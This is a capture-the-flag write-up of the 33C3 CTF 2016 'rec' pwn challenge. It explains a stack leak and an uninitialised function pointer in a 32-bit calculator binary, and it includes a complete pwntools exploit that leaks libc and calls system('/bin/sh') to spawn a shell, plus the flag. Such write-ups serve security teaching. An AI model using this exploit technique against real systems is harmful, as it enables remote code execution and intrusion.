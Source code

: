 ```yaml
---
title: '33C3 CTF 2016 -- rec'
date: 2016-12-30 01:38
tags:
  - 33C3
  - CTF
  - Python
  - Pwnable
categories:
  - write-ups
---
```

**Category:** pwn
**Points:** 200

<!-- more -->  

32 bit ELF, with all the protection enabled.

program menu:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 
```
* Take note: input a note
* Read note: output the note
* Polish: do the `sum` operation or the elementary arithmetic (prefix expression)
* Infix: do the elementary arithmetic (infix expression)
* Reverse Polish: do the elementary arithmetic (postfix expression)
* Sign: input a number and see if it is a positive/negative number

First we found that the `Read note` function doesn't work well:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 0
Your note: 123
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 1
Your note:�VXV`�s��`XV     <-- WTF?
```

This is because the program use a stack address as the `note`'s buffer. After we take a note and leave the function, the buffer will be filled with some (useful) addresses (due to the function epilogue). And because of this, we're able to leak the stack address & text's base address.

Now it's time to try controlling the EIP. There's a program logic vulnerability in the `sign` function:
```c 
  if ( num <= 0 )
  {
    if ( num < 0 )
      v1 = (void (*)(void))puts_negative;
  }
  else
  {
    v1 = (void (*)(void))puts_positive;
  }
  v1();
```
It handles both positive & negative numbers. **But what about `0`** ?
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 5
0
[1]    40091 segmentation fault (core dumped)  ./rec
```
The reason why the program crash is because the program did not assigned a value to `v1` (since it did not handle `0`), so when it ran to line `v1()`, it will set the EIP to `0x0` and crash the program. Let's check the assembly code:
```
0x56555d3b:  mov    eax,DWORD PTR [ebp-0x20]   <-- &v1 = ebp-0x20
0x56555d3e:  call   eax
```
It shows that if we can control the value of `[ebp-0x20]`, we'll be able to control the EIP and hijack the program control flow.

I found that the stack frame of the `sign` function is "higher" (or "lesser") than the other functions. If we can't "reach that high" in other functions, we won't be able to control the function pointer. 

After done some fuzzing, I finally found that in the `Polish` function, if we do the `sum` operation and keep entering number, the program will keep pushing number to the stack, making us able to "reach the height" and control the function pointer (and the parameters !) in the `sign` function.

So here's how we gonna exploit the service:
1. Take a note & Read the note, leak the text's base address
2. Use `Polish`'s `sum` operation to control the function pointer & the function parameter. We first set the function pointer to `puts` and the parameter to `__libc_start_main@got` (there's no `.got.plt` due to the **FULL RELRO** protection)
3. Goto `sign` function and input `0`, it will call `puts(__libc_start_main@got)` and gave us the libc's base address
4. Repeat step 2, this time we set the function pointer to `system` and the parameter to "pointer to /bin/sh"
5. Goto `sign` function and input `0`, call `system("/bin/sh")` and get the shell

Here's the exploit. The libc's information are provided by [libc-database](https://github.com/niklasb/libc-database)
```python exp_rec.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time
import numpy

HOST = "78.46.224.74"
PORT = 4127
ELF_PATH = "./rec"
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def take_note(note):
    r.sendlineafter("> ", "0")
    r.sendlineafter("note: ", note)

def read_note():
    r.sendlineafter("> ", "1")

def polish_sum(nums):
    r.sendlineafter("> ", "2")
    r.sendlineafter("Operator:", "S")
    for num in nums:
        print "adding:", num
        r.sendlineafter("Operand:", str(num))

    r.sendlineafter("Operand:", ".")

def sign(num):
    r.sendlineafter("> ", "5")
    r.sendline(str(num))


if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    take_note("123")
    read_note()

    r.recvuntil("note: ")
    fptr_addr = u32(r.recv(4)) - 0x350 # where the function pointer be loaded
    text_base = u32(r.recv(4)) - 0x6fb
    puts = text_base + 0x520
    lsm_got = text_base + 0x2fe0
    puts_got = text_base + 0x2fd8
    
    log.success("fptr_addr: "+hex(fptr_addr))
    log.success("text_base: "+hex(text_base))

    nums = [i for i in xrange(0x63)] + [puts, lsm_got]
    polish_sum(nums)

    sign(0) # this will call puts(lsm_got)
    lsm_addr = u32(r.recv(4))
    #########################################
    #$ ./dump libc6-i386_2.24-3ubuntu2_amd64
    #offset___libc_start_main = 0x00018180
    #offset_system = 0x0003a8b0
    #offset_str_bin_sh = 0x15cbcf
    #########################################
    system_addr = lsm_addr + 0x22730 
    bin_sh = lsm_addr + 0x144a4f 
	
    log.success("lsm: "+hex(lsm_addr))
    log.success("system: "+hex(system_addr))
    log.success("bin_sh: "+hex(bin_sh))

    nums = [i for i in xrange(0x63)] + [numpy.int32(system_addr), numpy.int32(bin_sh)]
    polish_sum(nums)
    sign(0) # this time will call system("/bin/sh")
    
    r.interactive()
```

The flag is in `/challenge/flag.txt`

flag: `33C3_L0rd_Nikon_would_l3t_u_1n`
